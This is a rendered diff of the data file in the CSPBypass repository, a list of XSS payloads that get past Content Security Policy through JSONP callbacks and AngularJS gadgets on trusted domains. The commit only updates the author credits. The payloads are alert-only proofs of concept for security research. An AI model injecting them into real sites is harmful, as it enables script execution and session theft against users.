

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -100,3 +100,3 @@ wordpress.org	<script src="https://wordpress.org/wp-json/wp/v2/posts/?_jsonp=ale
 www-api.ibm.com	<script src="https://www-api.ibm.com/search/typeahead/v1?lang=en&cc=us&query=l&callback=alert"></script>	renniepak
-www.ancestrycdn.com	<body ng-app ng-csp><script src="https://www.ancestrycdn.com/ui-static/lib/angular/1.2.3/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>	
+www.ancestrycdn.com	<body ng-app ng-csp><script src="https://www.ancestrycdn.com/ui-static/lib/angular/1.2.3/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>	Eduardo Vela
 www.bing.com	<script src="https://www.bing.com/api/maps/mapcontrol?key=AlSfV3wSTlPFqxEdS97v1d1ZK25Qg4OxZerOAjFYQPZwtY4bQqhz4jDRou_kCmbJ&callback=alert"></script>	renniepak
@@ -109,3 +109,3 @@ www.googleapis.com	<script src="https://www.googleapis.com/blogger/v3/blogs/1/po
 www.googletagmanager.com	<script src="https://www.googletagmanager.com/debug/api/vtinfo?gtm_auth=a-0uanYFkML7e3v7Vmxpwg&env_id=env-8&public_id=GTM-TWMCBFD&templates=&callback=alert"></script>	YoeriVegt
-www.gstatic.com	<body ng-app ng-csp><script src="//www.gstatic.com/fsn/angular_js-bundle1.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>	IvarsVids
+www.gstatic.com	<body ng-app ng-csp><script src="//www.gstatic.com/fsn/angular_js-bundle1.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>	Gareth Heyes & IvarsVids
 www.gstatic.com	<script src='https://www.gstatic.com/recaptcha/about/js/main.min.js'></script><img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>	
```
Also changed, not shown: 22 edited cells elsewhere in this file, 1 other file.
